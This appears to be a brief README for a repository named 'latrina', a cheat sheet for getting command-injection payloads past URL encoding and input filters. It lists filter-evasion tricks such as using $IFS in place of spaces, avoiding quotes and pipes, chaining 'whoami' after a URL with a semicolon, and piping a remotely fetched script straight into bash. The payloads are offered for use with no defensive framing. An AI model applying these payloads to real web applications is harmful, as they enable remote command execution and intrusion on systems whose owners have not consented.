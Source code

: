 # latrina
bypass url encoding for nontrivial shell commands

# cheatsheet  
### setting string variables without quotes    
`variable=('a')`  
### separating fields without spaces 
`echo$IFS$a`
### separating fields without spaces and curly brackets
`a=('a');echo$IFS$a` 
### piping without pipes  
`wc$IFS-l$IFS<$IFS<(ls)`     
### starting code execution in a url without ampersand
`curl http://localhost/;whoami`
### redirecting to a hidden exploit (localhost/bin/bash)
`curl -s http://localhost/$0 | bash`
